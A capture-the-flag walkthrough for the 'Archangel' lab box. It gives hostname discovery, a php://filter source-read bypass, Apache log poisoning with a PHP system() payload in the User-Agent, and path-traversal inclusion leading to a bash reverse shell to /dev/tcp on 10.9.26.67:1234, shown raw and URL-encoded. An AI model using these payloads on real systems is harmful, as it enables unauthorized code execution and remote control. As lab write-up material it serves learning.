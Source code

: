 ## Archangel

#### Scan
```
nmap/*
```

#### Task2
- Find a different hostname
 - Send us a mail -> support@`mafialive.thm`

- Find flag 1
  - Walk-throught
  	```
  	# sudo vi /etc/hosts
  	EXPORT_IP	mafialive.thm
 	```
 - Look for a page under development
	 ```
	 ffuf -w {WORD_LIST} -u http://mafialive.thm/FUZZ
	 ```
 	- test.php

 - Find flag 2
   - phpfilter bypass
	   ```
	   http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
	   ```
	   - echo "{OUTPUT_TEXT}" | base64 -d
	   - Get Second Flag
 - Get a shell and find the user flag
   - Burp Repeater inject
	```
   	GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id HTTP/1.1
	User-Agent: Mozilla/5.0 <?php system($_GET['cmd'])?> Gecko/20100101 Firefox/78.0
    ```
    - Reverse shell payload
    ```
    /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=bash -c ‘exec bash -i &>/dev/tcp/10.9.26.67/1234 <&1’
    ```
    - Reverse Shell payload (URL Encoded)
    ```
    /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=bash+-c+"exec+bash+-i+%26>/dev/tcp/10.9.26.67/1234+<%261" 
    ```